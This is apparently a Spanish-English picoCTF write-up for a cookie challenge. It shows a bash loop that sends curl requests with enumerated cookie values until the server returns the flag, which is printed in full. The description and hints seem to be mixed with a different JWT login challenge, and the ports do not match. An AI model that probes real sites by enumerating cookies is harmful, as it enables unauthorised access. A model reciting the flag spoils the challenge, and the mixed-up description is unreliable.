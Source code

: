 ## Descripcion
Find the flag being held on this server to get ahead of the competition [http://mercury.picoctf.net:28916/](http://mercury.picoctf.net:28916/)

Hay un sitio web seguro en https://jupiter.challenges.picoctf.org/problem/54253/ (enlace) o http://jupiter.challenges.picoctf.org:54253. ¡Intenta ver si puedes iniciar sesión como administrador!
### Pistas
1. What is that cookie?
2. Have you heard of JWT?

1. ¿Qué es esa "cookie"?
2. ¿Has oído hablar de JWT?
### Solución
```
hellbroone-picoctf@webshell:~$ for i in {8..20}; do curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=$i"; done | grep "I love\|pico"
            <p style="text-align:center; font-size:30px;"><b>I love molasses cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love kiss cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love biscotti cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love spritz cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love snowball cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love drop cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love thumbprint cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love pinwheel cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love wafer cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
            <p style="text-align:center; font-size:30px;"><b>I love macaroon cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love fortune cookies!</b></p>
hellbroone-picoctf@webshell:~$ exit
logout

```
### Notas Adicionales
Para este reto aprendimos obtener cookies desde el bash para poder obtener las cookies necesarias y poder saber cuál es la cookie que necesitamos, por ello hicimos un pequeño código que nos permite ejecutar y obtener las cookies de un sitio mediante una consulta de su nombre.
### Referencias
https://play.picoctf.org/practice/challenge/173
[http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)
